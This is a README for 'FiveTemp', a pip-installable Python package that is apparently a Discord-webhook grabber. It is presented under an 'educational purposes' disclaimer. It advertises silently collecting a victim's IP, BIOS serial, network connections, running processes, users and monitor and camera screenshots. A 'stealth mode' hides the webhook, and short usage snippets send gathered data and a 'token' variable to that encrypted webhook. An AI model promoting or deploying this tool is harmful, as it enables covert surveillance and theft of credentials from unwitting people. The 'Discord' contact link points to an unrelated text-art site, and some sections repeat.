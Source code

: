 # FiveTemp (5t)
==================

A Discord import designed for educational purposes. The creator, Abyzms, is not responsible for any misusage or damages caused by using FiveTemp.

## Fix Release 6
------------

* **Fix Release 6**:
  + ✛ Automatically installs requirements
  + ✛ Camera will only screenshot if user has a camera. Else: it skips.
  - − FR5 Errors dealt with
* **NOTE**: Fix Release 6 was a update to fix CURRENT updates as of 1.0.7.
* To report errors from FR6/1.0.8 Contact me on [Discord](https://patorjk.com/software/taag/#p=display&f=Doom&t=abyzmsamphetamine)

## Features
------------

* **System Information**: Retrieve detailed information about your system, including:
  + IP Address configuration
  + BIOS Serial Number
  + GPU Information
  + Active Connections
  + OS Version
  + Open Applications (tasklist)
  + Registered Device Users
* **Monitoring**: Capture a screenshot of your monitor
* **Stealth Mode**: Stay sneaky with our discreet features, including webhook encryption.

## Installation
------------

To install FiveTemp, run the following command in your terminal:
`pip install fivetemp`

## Usage/Examples
--------------

### Encrypting Your Webhook

To encrypt your webhook, use the following command:
`5t -w [YOUR_WEBHOOK]`
This will output your encrypted webhook.

### Using FiveTemp in Your Code

To use FiveTemp in your Python code, import the library and pass your encrypted webhook:

```
import five_temp
five_temp.s('encrypted_webhook')
```
To send a variable (marked as token) use the following

```
import five_temp
five_temp.st('encrypted_webhook' , VARIABLE_NAME)
```

## Updates and More
-------------------

To access the FiveTemp menu, which includes updates, other packages, and social media links, run:
`5t -m`
# or
`5t --menu`
This will open a localhost server with the following information:

* Updates: Stay up-to-date with the latest changes and features
* Other Packages: Explore other projects and tools from Abyzms
* Social Media: Connect with Abyzms on various platforms

**Upcoming Features**

* Browser Information: Get detailed information about your browser

**Special Thanks**

A huge thank you to my friend [reckedpr](https://github.com/reckedpr) for their contributions to FiveTemp.

## Feedback
----------

If you have any feedback or suggestions, please reach out to us at [abyzms0+fivetemp@gmail.com](mailto:abyzms0+fivetemp@gmail.com) or comment on our YouTube video: <https://www.youtube.com/@abyzmzs>
## Installation

Install FiveTemp

```bash
pip install fivetemp
```
    
## Feedback

If you have any feedback, please reach out to us at abyzms0+fivetemp@gmail.com
Or: Comment on our youtube video. https://www.youtube.com/@abyzmzs

